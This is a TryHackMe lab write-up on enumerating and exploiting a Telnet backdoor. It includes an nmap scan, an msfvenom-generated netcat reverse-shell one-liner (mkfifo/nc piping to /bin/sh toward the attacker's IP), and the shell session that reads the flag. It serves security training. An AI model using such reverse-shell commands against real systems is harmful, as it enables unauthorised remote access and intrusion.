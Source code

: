 ```yaml
---
Author: Michael Baumberger
title: Network Services Telnet
parent: Network Services
ancestor: Try Hack Me Writeups
---
```


# Network Services Telnet

## Task 6 | Enumerating Telnet

Nmap scan the machine:

    nmap -sV -p- -A 10.10.122.25
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 21:35 CET
    Nmap scan report for 10.10.122.25
    Host is up (0.043s latency).
    Not shown: 65534 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    8012/tcp open  unknown
    | fingerprint-strings:
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
    |_    SKIDY'S BACKDOOR. Type .HELP to view commands
    1 service unrecognized despite returning data. 
    No exact OS matches for host
    
    OS and Service detection performed.
    Nmap done: 1 IP address (1 host up) scanned in 662.36 seconds

In the scan you can se the **open tcp port 8012** with the title 'SKIDY'S BACKDOOR' so maybe it is **a backdoor** from the **user skidy**.

## Task 7 | Exploiting Telnet

With telnet we can connect to the server:

    telnet 10.10.122.25 8012
    Trying 10.10.122.25...
    Connected to 10.10.122.25.
    Escape character is '^]'.
    SKIDY'S BACKDOOR. Type .HELP to view commands

Here we can see again **'SKIDY'S BACKDOOR.'**

We can try to execute a command but get **no result**:

    SKIDY'S BACKDOOR. Type .HELP to view commands
    .HELP
    .HELP: View commands
    .RUN <command>: Execute commands
    .EXIT: Exit
    .RUN ls

Now start a tcpdump listener:

    tcpdump ip proto \\icmp -i eth0
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes

Now execute in telnet the command *'.RUN ping 10.9.0.0 -c 1'* with your ip and you should see a echo request and reply in your tcpdump listener.
This means **there is code execution**.

now we can create a reverse shell command like:

    msfvenom -p cmd/unix/reverse_netcat lhost=10.9.0.0 lport=4444 R
    [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
    [-] No arch selected, selecting arch: cmd from the payload
    No encoder specified, outputting raw payload
    Payload size: 90 bytes
    mkfifo /tmp/guzg; nc 10.9.0.0 4444 0</tmp/guzg | /bin/sh >/tmp/guzg 2>&1; rm /tmp/guzg

Wo now can listen to the lport from above via:

    nc -lvp 4444
    listening on [any] 4444 ...

Now run the mkfifo command to create the reverse shell:

    .RUN mkfifo /tmp/guzg; nc 10.9.205.135 4444 0</tmp/guzg | /bin/sh >/tmp/guzg 2>&1; rm /tmp/guzg

In your netcat listener you should see something like this but my setup is buggy because of wsl2.

    nc -lvp 4444
    listening on [any] 4444 ...
    DNS fwd/rev mismatch: PC != PC.localdomain
    connect to [172.26.102.250] from PC-Main [172.26.96.1] 58297

Now you can execute commands in this reverse shell and get the flag:

    nc -lvp 4444
    listening on [any] 4444 ...
    DNS fwd/rev mismatch: PC-Main != PC-Main.localdomain
    connect to [172.26.102.250] from PC-Main [172.26.96.1] 58297
    ls
    flag.txt
    cat flag.txt
    THM{xxxxxxxxxxxxxxxxxxxxxxx}
